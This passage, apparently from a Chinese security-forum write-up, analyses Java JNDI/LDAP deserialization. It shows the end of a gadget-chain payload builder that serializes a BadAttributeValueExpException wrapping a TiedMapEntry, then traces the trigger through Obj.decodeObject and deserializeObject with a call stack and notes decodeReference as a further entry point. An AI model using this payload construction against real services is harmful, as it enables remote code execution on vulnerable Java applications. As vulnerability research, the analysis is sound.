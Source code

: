 ```php
            Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
            field.setAccessible(true);
            field.set(badAttributeValueExpException,tiedMapEntry);

            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(badAttributeValueExpException);
            objectOutputStream.close();

            return byteArrayOutputStream.toByteArray();
        }

}
```

客户端尝试触发，效果如下图

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-b84f24b761213fa4afd8f3aa6473492d7c1ec0ea.png)

调试跟踪分析流程

前面流程跟LDAP流程相同，还是会走到Obj类中的decodeObject方法，JAVA\_ATTRIBUTES字段有"objectClass", "javaSerializedData", "javaClassName", "javaFactory", "javaCodeBase", "javaReferenceAddress", "javaClassNames", "javaRemoteLocation",JAVA\_ATTRIBUTES\[1\]就是javaSerializedData，在起服务端的时候配置了这个字段，不为空就进入到deserializeObject方法中

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-248a2cc752ede4cfe4f8925df262bdf44c710503.png)

deserializeObject方法中对var20进行反序列化，var20就是服务端在其中时给javaSerializedData的赋值，就是恶意的序列化数据。  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-4ba724ad953921f71d5e78bff7adfdbf07314d41.png)

调用栈如下

```php
deserializeObject:532, Obj (com.sun.jndi.ldap)
decodeObject:239, Obj (com.sun.jndi.ldap)
c_lookup:1051, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
main:9, JNDIClient (org.example)
```

其实还有一处反序列化的点，在com/sun/jndi/ldap/Obj.java#decodeReference中，这个方法中也调用了上面例子中反序列化时经过的方法deserializeObject，如果程序能走到这里，也就意味着也可以进行反序列化操作。

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-8658d98d122ed4194c914ce28c580a8ba15c3ed8.png)

首先要看一下怎样才能进入decodeReference方法中，在上面例子中讲到通过Obj类中的decodeObject方法在启动时给JAVA\_ATTRIBUTES的javaSerializedData赋值进入了deserializeObject方法，但是在decodeObject方法中也调用了decodeReference方法，如果要进入要在启动时给JAVA\_ATTRIBUTES的objectClass赋值。
